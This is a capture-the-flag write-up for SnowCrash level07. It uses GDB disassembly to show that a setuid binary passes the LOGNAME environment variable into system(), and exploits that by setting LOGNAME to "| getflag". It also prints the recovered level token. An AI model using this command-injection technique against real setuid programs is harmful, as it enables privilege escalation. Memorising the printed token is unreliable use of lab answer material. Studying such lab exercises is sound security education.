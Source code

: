# level07

- We login as user level07.
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```
level07@SnowCrash:~$ ./level07
level07
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File /home/user/level07/level07.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048384  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave
   0x080485a0 <+140>:   ret
End of assembler dump.
```


- The program calls `<getenv@plt>` after moving the address (`0x8048680`) on top of the stack.
```
(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
```


- `<getenv@plt>` will thus save the value of the `LOGNAME` environment variable in the `eax` register, and this value will be passed as a parameter to the `<asprintf@plt>` function. Note that later, the address `0x8048688` will also be moved on top of the stack to be used by `<asprintf@plt>`.
```
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s"
```


- Then, `<asprintf@plt>` will store in the `eax` register the address pointing to the string `/bin/echo %s`, where `%s` will be replaced by the contents of the `LOGNAME` environment variable.
The resulting string will be executed by calling `<system@plt>`, so:
```
level07@SnowCrash:~$ export LOGNAME="| getflag"
```

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

```
level07@SnowCrash:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$
```